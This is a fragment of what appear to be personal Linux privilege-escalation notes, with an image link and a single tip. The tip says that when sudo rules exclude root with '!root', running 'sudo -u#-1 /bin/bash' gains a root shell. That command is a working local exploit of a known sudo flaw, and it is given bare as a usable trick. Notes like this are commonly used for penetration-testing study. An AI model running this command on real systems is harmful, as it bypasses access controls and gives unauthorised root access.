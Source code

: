 ![](/Linux-Privilege-Notes/images/sudo%20no%20root.png)


if we see !root in the sudo permissions then use 


` sudo -u#-1  /bin/bash`
to escalate our privs
